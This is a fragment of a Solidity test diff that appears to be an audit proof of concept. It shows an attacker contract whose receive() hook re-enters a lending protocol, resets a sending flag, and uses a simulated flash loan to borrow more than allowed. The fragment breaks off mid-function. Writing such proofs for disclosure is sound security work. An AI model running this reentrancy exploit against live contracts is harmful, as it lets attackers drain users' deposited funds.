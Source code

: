 ```diff
+        console.log("\n\n -------------- ATTACK LOGS (flash-borrow) --------------\n");
+        Killer2 contractKiller2 = new Killer2{value: 100 ether}(address(LENDING_INSTANCE));
+        vm.startPrank(address(contractKiller2));
+        //*************************************************************************
+
+        uint256 nftId = POSITION_NFTS_INSTANCE.mintPosition(); // nftId = 1
+        LENDING_INSTANCE.depositExactAmountETH{value: 100 ether}(nftId); 
+        assertEq(address(contractKiller2).balance, 0 ether, "non-zero balance");
+        vm.expectRevert();
+        LENDING_INSTANCE.borrowExactAmountETH(nftId, 77 ether); // allowed max borrow is some value less than 77 ether
+
+        LENDING_INSTANCE.borrowExactAmountETH(nftId, 1 ether); // invokes contractKiller2's receive()
+        
+        assertEq(address(contractKiller2).balance, 76 ether, "unexpected borrow amount");
+    }
+}
+
+contract Killer is Test {
+    address targetAddr;
+    address _WETH_ADDR;
+    IWiseLend target;
+    uint256 counter;
+    uint256 nftId = 2;
+
+    constructor(address _target, address _WETH) payable {
+        targetAddr = _target;
+        target = IWiseLend(_target);
+        _WETH_ADDR = _WETH;
+    }
+
+    receive() external payable { 
+        counter++;
+        if (counter == 1) {
+            // @audit : make this call to set `sendingProgress` to `false`
+            (bool s,) = payable(targetAddr).call{value: 0}("");
+            require(s);
+
+            // @audit : can re-enter now !
+            helper_getFlashLoan(1_000_000 ether);
+            target.depositExactAmountETH{value: 1_000_000 ether}(nftId);
+
+            emit log_named_decimal_uint("valueUtilization after flash deposit =", target._getValueUtilization(_WETH_ADDR), 9);
+            emit log_named_decimal_uint("borrowRate after flash deposit =", target._getBorrowRate(_WETH_ADDR), 9);
+
+            target.borrowExactAmountETH(nftId, 75 ether);
+        }
+        else if (counter == 2) {
+            (bool s,) = payable(targetAddr).call{value: 0}("");
+            require(s);
+
+            target.withdrawExactAmountETH(nftId, 1_000_000 ether);
+        }
+        else if (counter == 3) {
+            helper_returnFlashLoan(1_000_000 ether);
+        }
+    }
+
+    function helper_getFlashLoan(uint256 amount) internal {
+        // in a real attack, we get a flash loan from Aave/Balancer here
```